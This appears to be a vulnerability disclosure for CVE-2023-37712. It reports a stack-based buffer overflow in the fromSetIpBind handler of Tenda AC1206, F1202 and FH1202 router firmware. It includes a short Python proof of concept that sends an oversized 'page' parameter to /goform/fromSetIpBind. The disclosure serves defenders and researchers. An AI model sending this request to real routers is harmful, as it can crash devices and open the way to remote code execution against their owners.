

# Tenda AC1206, F1202, FH1202 Vulnerability

This vulnerability lies in the `fromSetIpBind` function which influences the latest version of Tenda AC1206, F1202 and FH1202. (The latest version is [V15.03.06.23](https://down.tenda.com.cn/uploadfile/AC1206/US_AC1206V1.0RTL_V15.03.06.23_multi_TD01.zip), [V1.2.0.20(408)](https://down.tenda.com.cn/uploadfile/F1202/US_F1202V1.0BR_V1.2.0.20(408)_CN_TD.zip) and [V1.2.0.20(408)](https://down.tenda.com.cn/uploadfile/FH1202/US_FH1202V1.0BR_V1.2.0.20(408)_CN_TD.zip))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `fromSetIpBind`.

In function `fromSetIpBind` it reads user provided parameter `page` into `page`, and this variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `gotopage`.



So by requesting the page `/goform/fromSetIpBind`, the attacker can easily perform a **DoS** or **RCE** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fromSetIpBind?"
url += "page=" + "s" * 0x200

response = requests.get(url)
```

## Timeline

* 2023-07-10: CVE ID assigned (CVE-2023-37712)
